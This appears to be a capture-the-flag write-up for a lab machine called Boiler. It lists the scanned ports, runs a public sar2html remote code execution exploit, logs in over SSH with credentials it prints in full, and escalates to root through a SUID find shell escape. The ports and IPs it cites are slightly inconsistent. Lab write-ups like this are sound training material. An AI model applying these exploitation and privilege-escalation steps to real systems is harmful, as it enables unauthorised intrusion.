


# Boiler CTF

**IP Address:** 172.31.1.7

## Enumeration
### Open Ports
| Port | State | Service | Version |
|------|-------|---------|---------|
| 10000/tcp | open | http | MiniServ 1.930 |
| 21/tcp | open | ftp | vsftpd 3.0.3 |
| 55007/tcp | open | ssh | OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 |
| 80/tcp | open | http | Apache httpd 2.4.18 |

## Exploitation #1
### Exploit Details (SearchSploit)
* **Name** - sar2html 3.2.1 - 'plot' Remote Code Execution 
* **CVE** - N/A
* **Module** - php/webapps/49344.py 
* **Disclosed** - 2021-01-04 
* **References**
  * https://www.exploit-db.com/exploits/49344

1. Execute the exploit. 

Commands
```
python3 49344.py
http://10.10.121.76/joomla/_test/
cat log.txt
```


2. Use the found credentials to login via ssh. 

Commands
```
ssh basterd@$ip -p 5500
superduperp@$$
```



3. View the contest of the backup.sh file to find additional user credentials

Commands
```
cat backup.sh 
```


4. Login as the new user via ssh. 

Commands
```
ssh stoner@$ip -p 55007
superduperp@$$no1knows
whoami
cat .secret
```



## Privilege Escalation
### Exploit Details (SUID (find))
* **Name** - SUID (find)
* **CVE** - N/A
* **Module** - N/A
* **Disclosed** - N/A
* **References**
  * N/A

Commands
```bash
find . -exec /bin/sh -p \; -quit
whoami
cat /root/root.txt
```


## Loot
```
.secret
You made it till here, well done.
root.txt
It wasn't that hard, was it?
```